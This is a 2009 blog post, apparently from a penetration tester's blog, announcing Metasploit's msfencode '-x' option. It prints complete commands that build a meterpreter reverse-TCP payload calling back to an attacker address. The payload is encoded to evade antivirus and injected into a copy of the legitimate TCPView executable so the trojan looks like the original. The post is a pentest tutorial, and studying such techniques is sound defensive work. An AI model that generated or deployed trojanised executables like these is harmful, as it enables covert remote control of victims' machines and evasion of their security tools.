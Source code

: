 ---
author: mubix
comments: true
date: 2009-11-03 03:47:20+00:00
layout: post
title: 'Metasploit Blends in: New MSFPayload/ENcode'
categories:
- metasploit
---

In [Revision 7315](https://metasploit.com/redmine/projects/framework/repository/revisions/7315) of the Metasploit Framework (SVN) a new option was added to MSFENCODE. Technically you always had the ability to do the following, but it required a bit of knowledge of the inner workings of the framework.

But before I get into the new feature, lets quickly go over the standard way you use msfencode:

```
root@bt4:/pentest/exploits/framework3# ./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.131 LPORT=443 R | ./msfencode -t exe -o /tmp/bob.exe       
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1) 

root@bt4:/pentest/exploits/framework3#
```

We just used MSFPAYLOAD to output in [R]AW format, a reverse tcp connect meterpreter payload. We then piped it into MSFENCODE, so that we could output it as a proper Windows executable (/tmp/bob.exe), encoded to avoid AV detection.

Now if you knew where it was (data/templates/template.exe) you could probably just replace the template.exe with the one you want loaded with the payload and called it a day. But then you wouldn’t get some of the tweaks that make this update awesome.

The update added the (-x) option to msfencode. This allows you to specify an executable of your choosing to sacrifice to the gods. For example: (TCPView)

```
root@bt4:/pentest/exploits/framework3# ./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.131 LPORT=443       
R | ./msfencode -t exe -x /tmp/Tcpview.exe -o /tmp/Tcpview2.exe        
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1) 

root@bt4:/pentest/exploits/framework3#
```
And if everything went well, we have a nice new executable in /tmp/ called Tcpview2.exe. Want to know the magic part? Try to tell them apart:

![](/images/postimages/200911_msfencode_1.png)
